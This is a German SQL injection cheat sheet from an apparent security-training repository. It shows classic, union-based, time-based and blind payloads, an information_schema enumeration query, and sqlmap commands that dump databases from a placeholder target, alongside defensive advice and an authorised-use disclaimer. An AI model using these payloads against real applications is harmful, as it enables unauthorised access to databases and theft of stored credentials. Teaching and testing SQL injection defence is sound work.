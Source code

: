 # SQL Injection Cheat Sheet

## 🕵️ Was ist eine SQL-Injection?

SQL-Injection (SQLi) ist eine Schwachstelle in Webanwendungen, bei der Angreifer schädlichen SQL-Code einschleusen, um mit der Datenbank zu interagieren. Ziel ist es, Daten zu lesen, ändern oder löschen, ohne Berechtigung zu haben.

---

## 📄 Grundlegende Arten von SQL-Injections

| Typ                   | Beschreibung                                                    |
| --------------------- | --------------------------------------------------------------- |
| Klassische SQLi       | Direkte Einspeisung in SQL-Abfrage                              |
| Blind SQLi            | Keine Fehlermeldung oder Ausgabe, aber Verhalten verändert sich |
| Time-Based Blind SQLi | Antwortzeit zeigt an, ob Abfrage erfolgreich war                |
| Union-Based SQLi      | Verwendung von UNION zur Datenabfrage                           |
| Error-Based SQLi      | Nutzt Fehlermeldungen zur Informationsgewinnung                 |

---

## ⚡ Beispiele für SQL-Injection Payloads

### 1. Klassische Injection

```sql
' OR '1'='1
admin' --
```

### 2. Union-Based

```sql
' UNION SELECT null, username, password FROM users --
```

### 3. Time-Based (MySQL)

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 4. Blind SQLi (Boolean)

```sql
' AND 1=1 -- (wird akzeptiert)
' AND 1=2 -- (wird abgelehnt)
```

---

## 🔎 Wichtige SQL-Befehle zur Ausnutzung

| Befehl               | Zweck                                   |
| -------------------- | --------------------------------------- |
| `SELECT`             | Daten abfragen                          |
| `UNION`              | Daten aus mehreren Abfragen kombinieren |
| `INSERT`, `UPDATE`   | Daten manipulieren                      |
| `DELETE`             | Daten löschen                           |
| `INFORMATION_SCHEMA` | Metadaten zur Datenbank anzeigen        |

Beispiel:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
```

---

## 🧱 Schutz vor SQL-Injection

* ✅ Prepared Statements / Parameterized Queries verwenden (z. B. `PDO`, `mysqli` in PHP)
* ✅ Eingaben validieren und escapen
* ✅ Least Privilege Prinzip in der Datenbank anwenden
* ✅ Fehlerausgaben vermeiden oder loggen
* ✅ WAF (Web Application Firewall) einsetzen

---

## ⚔️ Nützliche Tools zur SQLi-Analyse

| Tool         | Funktion                                       |
| ------------ | ---------------------------------------------- |
| `sqlmap`     | Automatisierte SQLi-Tests und Exploits         |
| `Burp Suite` | Manuelles Testen und Modifizieren von Requests |
| `ZAP`        | Open Source Scanner für Webanwendungen         |
| `DVWA`       | Testumgebung für Web Security                  |

---

## ⛔ Beispiel: SQL-Injection mit sqlmap

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --batch --dbs
```

Weitere Beispiele:

```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin" --dump
```

---

## 🕵️‍♂️ Fazit

SQL-Injections sind eine der ältesten, aber immer noch häufigsten Sicherheitslücken im Web. Mit ausreichendem Wissen und den richtigen Tools lassen sich diese erkennen, ausnutzen und vor allem vermeiden.

**Ziel:** Erkennen, verstehen und absichern.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
